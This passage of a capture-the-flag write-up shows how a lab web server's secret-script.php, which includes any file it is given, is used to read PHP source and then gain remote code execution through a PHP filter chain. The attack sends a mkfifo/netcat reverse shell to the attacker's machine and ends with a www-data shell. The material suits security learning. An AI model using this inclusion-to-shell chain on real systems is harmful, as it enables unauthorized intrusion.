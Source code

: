 After bypassing the login, we are redirected to `http://10.10.184.98/secret-script.php?file=supersecretadminpanel.html`, where the `file` parameter is particularly interesting. Additionally, by checking the other links on the page, we notice the application also uses the PHP filters in the `file` parameter.

![Web 80 Admin Panel](web_80_admin_panel.webp){: width="1200" height="600" }

> It is also possible to discover the `/secret-script.php` endpoint by fuzzing the web application for files, which reveals `messages.html` that links to it. Since there is no authentication mechanism, you can access it directly without logging in.
{: .prompt-tip }

Since the application seems to accept PHP filters, we can try using the `convert.base64-encode` filter to read the source code of the PHP pages. 

By examining the source code of `secret-script.php`, we see that it simply takes the `file` parameter and calls `include` with it.

```console
$ curl -s 'http://10.10.184.98/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php' | base64 -d
<?php
  //echo "Hello World";
  if(isset($_GET['file'])) {
    $file = $_GET['file'];
    include($file);
  }
?>
```
{: .wrap }

### RCE with PHP Filters Chain

At this point, we can achieve RCE using PHP filters chain, as described [here](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it).

First, we need to generate a payload using the [`php_filter_chain_generator.py`](https://github.com/synacktiv/php_filter_chain_generator).

```console
$ python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.72.22 443 >/tmp/f"); ?>' | grep '^php' > payload.txt
```
{: .wrap }

Now, by sending our payload as the `file` parameter, we obtain a shell as the `www-data` user.

```console
$ curl -s "http://10.10.184.98/secret-script.php?file=$(cat payload.txt)"
```

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.184.98] 40680
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@cheesectf:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@cheesectf:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 443
$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443
www-data@cheesectf:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
